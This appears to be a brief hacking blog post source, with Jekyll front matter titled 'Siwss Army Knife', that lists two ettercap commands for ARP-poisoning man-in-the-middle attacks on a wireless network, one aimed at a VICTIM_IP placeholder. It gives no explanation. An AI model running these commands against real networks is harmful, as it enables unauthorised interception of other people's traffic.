 ```yaml
---
layout: post
title: Siwss Army Knife
categories: [Hacking]
tags: [Kali, Linux, Hacking]
description: Ettercap
fullview: true
comments: true
---
```


{% highlight yaml %}
$ettercap -T -Q -i wlan0 -M ARP // //
$ettercap -T -Q -i wlan0 -M ARP /VICTIM_IP/ //
{% endhighlight %}
